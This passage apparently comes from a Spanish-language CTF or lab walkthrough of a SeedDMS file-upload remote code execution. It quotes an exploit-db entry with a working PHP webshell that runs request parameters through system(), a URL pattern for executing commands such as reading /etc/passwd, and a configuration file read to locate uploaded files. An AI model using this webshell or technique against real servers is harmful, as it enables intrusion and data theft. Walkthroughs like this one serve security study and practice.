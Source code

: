 ```bash
> $ searchsploit -x php/webapps/50062.txt
```

```bash
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
(END)
```

Este nos explica un poco  un método para poder acceder via web a los documentos guardados mediante el servicio. Al acceder a uno de los documentos guardados, podemos inyectar un código PHP que durante la respuesta de la request sea ejecutado.
Subimos el fichero rce.php que nos permitirá crear una webshell. 

-------------------------------------------------------------------------------

Necesitamos averiguar la ruta exacta donde se guardan los ficheros. Miramos el fichero settings.xml

```bash
> cat conf/settings.xml
```

```xml
...
 101   │     -->
 102   │     <server
 103   │       rootDir = ""
 104   │       httpRoot = "/seeddms51x/"           <----
 105   │       contentDir = ""
 106   │       stagingDir = ""
 107   │       luceneDir = ""
 108   │       logFileEnable = "true"
 109   │       logFileRotation = "d"
 110   │       enableLargeFileUpload = "false"
 111   │       partitionSize = "2000000"
 112   │       dropFolderDir = ""
 113   │       cacheDir = ""
 114   │       backupDir = ""
 115   │     />
 116   │     <!--
...
 283   │        - cmdTimeout: timeout in sec. for external commands
 284   │     -->
 285   │     <server
 286   │       coreDir = ""
 287   │       luceneClassDir = ""
 288   │       contentOffsetDir = "1048576"          <---
 289   │       maxDirID = "0"
```